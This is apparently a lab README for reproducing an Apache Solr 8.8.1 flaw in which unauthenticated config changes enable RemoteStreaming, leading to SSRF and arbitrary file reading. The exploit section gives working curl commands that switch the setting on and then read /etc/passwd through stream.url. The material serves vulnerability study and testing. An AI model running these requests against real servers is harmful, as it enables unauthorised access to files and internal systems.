

# Apache Solr RemoteStreaming Arbitrary File Reading and SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open source search server. When Apache Solr does not enable authentication, an attacker can directly craft a request to enable a specific configuration, and eventually cause SSRF or arbitrary file reading.

References:

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## Vulnerability environment

Execute following commands to start a Apache Solr 8.8.1:

```
docker-compose up -d
```

After the environment is started, browser `http://your-ip:8983` to view the Apache Solr.

## Exploit

First, visit `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json` to extract the database name:



Send the following request, modify the configuration of the database `demo` to enable `RemoteStreaming`:

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```


Then read arbitrary file through `stream.url`:

```
curl -i -s -k'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```


